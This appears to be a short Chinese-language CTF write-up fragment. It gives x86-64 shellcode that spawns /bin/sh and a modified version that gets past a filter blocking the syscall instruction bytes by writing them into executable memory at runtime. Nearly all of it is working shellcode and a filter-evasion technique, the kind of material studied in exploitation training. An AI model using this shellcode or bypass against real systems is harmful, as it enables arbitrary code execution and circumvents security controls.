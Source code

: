 shellcode 源码来自 [Even shorter x86-64 shellcode](https://systemoverlord.com/2016/04/27/even-shorter-shellcode.html)
原代码
```nasm
BITS 64

xor esi, esi
push rsi
mov rbx, 0x68732f2f6e69622f  ; /bin//sh
push rbx
push rsp
pop rdi
imul esi
mov al, 0x3b
syscall
```
汇编代码中不能直接出现`syscall`，考虑绕过方式
`syscall`是`0x050f`，代码中只屏蔽了这两个码点连着的情况，可以先把`0x050e`移入寄存器，再将其移入`rip`下方即可(rwx段)
```nasm
; 更改后
 xor esi, esi
push rsi
mov rbx, 0x68732f2f6e69622f
push rbx
push rsp
pop rdi
imul esi
mov al, 0x3b
mov cx, 0x050e
inc cx
mov word ptr [rip], cx
```